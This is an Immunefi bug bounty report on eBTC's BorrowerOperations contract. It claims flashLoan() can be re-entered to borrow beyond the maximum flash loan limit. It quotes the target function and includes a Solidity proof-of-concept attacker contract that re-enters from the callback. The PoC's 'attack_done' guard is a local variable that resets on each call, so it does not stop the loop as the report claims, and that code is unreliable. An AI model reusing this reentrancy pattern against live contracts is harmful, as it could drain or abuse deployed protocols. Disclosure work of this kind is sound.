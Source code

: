
# Reentrancy on BorrowerOperations allows users to borrow greater than Max Flash Loan

Submitted on Feb 24th 2024 at 19:57:39 UTC by @shanb1605 for [Boost | eBTC](https://immunefi.com/bounty/ebtc-boost/)

Report ID: #28713

Report type: Smart Contract

Report severity: Insight

Target: https://github.com/ebtc-protocol/ebtc/blob/release-0.7/packages/contracts/contracts/BorrowerOperations.sol

Impacts:
- Contract fails to deliver promised returns, but doesn't lose value

## Description
***Permalink:*** https://github.com/ebtc-protocol/ebtc/blob/a96bd000c23425f04c3223a441a625bfb21f6686/packages/contracts/contracts/BorrowerOperations.sol#L1091

## Brief/Intro
The `flashLoan()` allows users to borrow ebtc on BorrowerOperations. The amount that can be borrowed is limited to maxFlashLoan(token) means one can borrow within the maximum limit of the amount. This limit can be bypassed with a reentrant call on the `flashLoan()` function.

## Vulnerability Details
The BorrowerOperations contract misses reentrancy protection on flashLoan() which leads to borrowing over the max borrowing limit of the token.

```solidity
    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external override returns (bool) {
        require(amount > 0, "BorrowerOperations: 0 Amount");
        uint256 fee = flashFee(token, amount); // NOTE: Check for `eBTCToken` is implicit here // NOTE: Pause check is here
        require(amount <= maxFlashLoan(token), "BorrowerOperations: Too much");

        // Issue EBTC
        ebtcToken.mint(address(receiver), amount);

        // Callback
        require(
            receiver.onFlashLoan(msg.sender, token, amount, fee, data) == FLASH_SUCCESS_VALUE,
            "IERC3156: Callback failed"
        );

        // Gas: Repay from user balance, so we don't trigger a new SSTORE
        // Safe to use transferFrom and unchecked as it's a standard token
        // Also saves gas
        // Send both fee and amount to FEE_RECIPIENT, to burn allowance per EIP-3156
        ebtcToken.transferFrom(address(receiver), feeRecipientAddress, fee + amount);

        // Burn amount, from FEE_RECIPIENT
        ebtcToken.burn(feeRecipientAddress, amount);

        emit FlashLoanSuccess(address(receiver), token, amount, fee);

        return true;
    }
```

## Impact Details
***Contract fails to deliver promised returns, but doesn't lose value:*** The contract promises to lend within the maximum flash loan amount to the users. However, the malicious users can re-enter the `flashloan()` function and borrow above the maximum limit. Hence, the contract fails to deliver the promise.

## References
MakerDao has Reentrancy Protection on the FlashLoan module: https://github.com/makerdao/dss-flash/blob/9d492aa6148c35f568400a1ab85cd6df43b2ccc8/src/flash.sol#L74

https://github.com/makerdao/dss-flash/blob/9d492aa6148c35f568400a1ab85cd6df43b2ccc8/src/flash.sol#L137



## Proof of Concept
* First `call_Flashloan()` is executed to borrow the max amount of ebtc.
* Inside `onFlashLoan` `some_actions()` will executed to borrow again the ebtc from the BorrowerOperations contract.
* It sets `attack_done = true` to prevent an unbounded loop.
* Further actions will be carried out with the Flash Loan amount.

```solidity
pragma solidity ^0.8.0;

interface BorrowerOperations {
    function flashLoan(address receiver,address token,uint256 amount,bytes calldata data) external;
}

contract FlashLoan_Receiver {
    bytes32 public constant FLASH_SUCCESS_VALUE = keccak256("ERC3156FlashBorrower.onFlashLoan");

    function call_Flashloan() external {
        BorrowerOperations(address(1)).flashLoan(address(this), address(0xeee),12301300,"");
    }

    function onFlashLoan(address,address,uint256,uint256,bytes memory) external returns(bytes32) {
        some_actions();
        return FLASH_SUCCESS_VALUE;
    }

    function some_actions() internal {
        bool attack_done;
        if(!attack_done) {
            attack_done = true;
            BorrowerOperations(address(1)).flashLoan(address(this), address(0xeee),12301300,"");
        }
    }

}
```